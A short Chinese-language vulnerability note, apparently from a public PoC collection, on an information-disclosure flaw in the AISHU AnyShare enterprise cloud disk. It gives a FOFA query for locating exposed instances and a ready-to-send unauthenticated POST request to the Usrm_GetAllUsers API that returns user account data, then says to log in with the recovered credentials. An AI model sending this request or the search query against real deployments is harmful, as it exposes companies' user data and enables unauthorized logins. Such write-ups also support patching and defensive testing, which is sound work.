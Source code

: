 # 爱数企业云盘存在信息泄露漏洞

# 一、漏洞简介
爱数企业云盘是一个备受欢迎的企业级云存储解决方案，其主要特点包括1、数据安全性高，2、存储容量大，3、访问便捷。爱数企业云盘通过多重加密和权限控制，保障了企业数据的安全性。其大容量存储可以满足企业大量数据存储需求，并且用户可以通过多种设备便捷访问数据。爱数企业云盘存在任意信息泄露漏洞

# 二、影响版本
爱数企业云盘

# 三、资产测绘
+ fofa`app="AISHU-AnyShare"`
+ 特征

![1730710857097-161efd6a-0577-47d8-a3d6-a82d1634dc19.png](./img/nfcJYEdXCi3NMsDs/1730710857097-161efd6a-0577-47d8-a3d6-a82d1634dc19-105570.png)

# 三、漏洞复现
```java
POST /api/ShareMgnt/Usrm_GetAllUsers HTTP/1.1
Host: 

[1,100]
```

![1730710998770-27410fe5-6d05-4d12-8c3b-080e4dc815ac.png](./img/nfcJYEdXCi3NMsDs/1730710998770-27410fe5-6d05-4d12-8c3b-080e4dc815ac-017381.png)

使用账号密码登录

![1730710969054-6267588d-2c93-466a-a855-f31713dfc801.png](./img/nfcJYEdXCi3NMsDs/1730710969054-6267588d-2c93-466a-a855-f31713dfc801-355450.png)



> 更新: 2024-11-27 10:00:07  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/lw5f2lpcye0l5ez8>